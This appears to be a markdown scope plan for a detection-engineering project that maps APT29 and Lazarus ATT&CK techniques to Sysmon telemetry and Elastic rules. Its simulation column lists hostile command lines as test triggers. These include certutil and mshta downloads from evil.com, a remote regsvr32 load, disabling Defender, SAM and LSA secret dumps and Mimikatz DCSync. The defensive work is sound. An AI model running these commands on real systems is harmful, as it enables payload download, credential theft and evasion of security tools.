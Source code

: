 # TTP Scope – APT Detection Project

## Selected APT Groups

* **APT29 (Cozy Bear)** — stealthy intrusions, heavy PowerShell usage, credential access, process injection, DCSync.
* **Lazarus Group** — persistence via registry/run keys & startup folders, LOLBins (mshta, rundll32), SMB/WMI lateral movement, tool staging.

## Detection Scope & Data Sources

* **Windows endpoint telemetry** via **Sysmon** (EIDs 1/3/8/11/13) and **Security logs** (4662, 5140) shipped by **Winlogbeat** to **Elastic**.
* Rule languages by use-case: **KQL** (single events), **EQL** (sequence/correlation), **ES|QL** (hunting/aggregation).
* **Sigma is source of truth**; we adapt/compile to Elastic query languages.

## Techniques in Scope (with rule language & simulation plan)

| Technique ID  | Name                                             | Primary Log Source(s)                                                          | Rule Lang | Sim / Trigger                                                           | Why in Scope                             | Mapping to Groups  |
| ------------- | ------------------------------------------------ | ------------------------------------------------------------------------------ | --------- | ----------------------------------------------------------------------- | ---------------------------------------- | ------------------ |
| **T1059.001** | PowerShell – EncodedCommand                      | Sysmon **EID 1** (ProcessCreate)                                               | **KQL**   | `powershell.exe -enc <b64>`                                             | Common obfuscation/execution path        | APT29, Lazarus     |
| **T1053.005** | Scheduled Task Creation                          | Sysmon **EID 1**                                                               | **KQL**   | `schtasks /create /sc onlogon ...`                                      | Persistence & execution                  | Both               |
| **T1047**     | WMI Execution                                    | Sysmon **EID 1**, optional **EID 3**                                           | **KQL**   | `wmic process call create "cmd /c calc"`                                | Remote execution/lateral move            | APT29              |
| **T1105**     | Ingress Tool Transfer                            | Sysmon **EID 3** (NetworkConnect), **EID 1** (`certutil.exe`, `bitsadmin.exe`) | **KQL**   | `certutil -urlcache -f http://evil.com/evil.exe`                        | Tool download                            | Lazarus            |
| **T1547.001** | Registry Run Keys / Startup Folder Persistence   | Sysmon **EID 13** (RegistrySet), **EID 11** (FileCreate)                       | **KQL**   | `reg add HKCU\Software\...\Run /v Evil` or drop `evil.lnk` in Startup   | Lightweight persistence                  | Both               |
| **T1218.010** | Regsvr32 (Squiblydoo)                            | Sysmon **EID 1**                                                               | **KQL**   | `regsvr32 /s /u /i:http://... scrobj.dll`                               | Signed binary proxy execution            | APT29              |
| **T1218.011** | Rundll32 Proxy Execution                         | Sysmon **EID 1**                                                               | **KQL**   | `rundll32.exe javascript:...`                                           | Execution proxy                          | Both               |
| **T1218.005** | Mshta Execution                                  | Sysmon **EID 1**                                                               | **KQL**   | `mshta http://evil.com/payload`                                         | LOLBin abuse                             | Lazarus            |
| **T1112**     | Modify Registry (Security Controls / IFEO / UAC) | Sysmon **EID 13**                                                              | **KQL**   | `reg add HKLM\...\Image File Execution Options\malware.exe /v Debugger` | Defense evasion                          | Both               |
| **T1562.001** | Disable/Weaken Security Tools                    | Sysmon **EID 1**, **EID 13**                                                   | **KQL**   | `powershell Set-MpPreference -DisableRealtimeMonitoring $true`          | Disable Defender                         | Both               |
| **T1569.002** | Service Execution                                | Sysmon **EID 1**                                                               | **KQL**   | `sc create evil binpath= C:\evil.exe`                                   | Privilege escalation & persistence       | Both               |
| **T1055**     | Process Injection (CreateRemoteThread)           | Sysmon **EID 8** (ProcessAccess)                                               | **EQL**   | Atomic Red Team process injection                                       | Stealthier in-memory execution           | APT29              |
| **T1021.002** | Lateral Movement via Admin Shares                | Security **5140**, Sysmon **EID 1/11**                                         | **KQL**   | `copy evil.exe \\target\ADMIN$\`                                        | Admin share abuse                        | Lazarus            |
| **T1573**     | Encrypted C2 over TLS                            | Sysmon **EID 3** (NetworkConnect)                                              | ESQL                                                                  | Sim TLS beaconing with Cobalt Strike     | Hidden C2 channels | Both |
| **T1003.002** | SAM Dump                                         | Sysmon **EID 1**, **EID 11**                                                   | **KQL**   | `reg save hklm\sam sam.hiv`                                             | Credential access                        | APT29              |
| **T1003.004** | LSA Secrets Dump                                 | Sysmon **EID 1**                                                               | **KQL**   | `reg query HKLM\SECURITY\Policy\Secrets`                                | Credential access                        | APT29              |
| **T1003.006** | DCSync                                           | Security **4662**                                                              | **KQL**   | Mimikatz `lsadump::dcsync`                                              | Credential access via replication rights | APT29              |

---

## Status

* ✅ Multiple rules built, YAML + KQL/EQL/ES|QL written and tested in Elastic (Atomic Red Team used where possible).
* 🔜 Systematic testing of each rule → capture alerts + refine false positives.
* 📝 Next: finalize **ATT\&CK Navigator JSON** (mapping to APT29/Lazarus), plus detection report.

---

## Out of Scope (for this iteration)

* T1027 Obfuscated/Compressed Files & Information (content-level; high FP)
* Broader Impair Defenses (T1562 variants needing EDR policy signals beyond Defender registry/CLI)

---
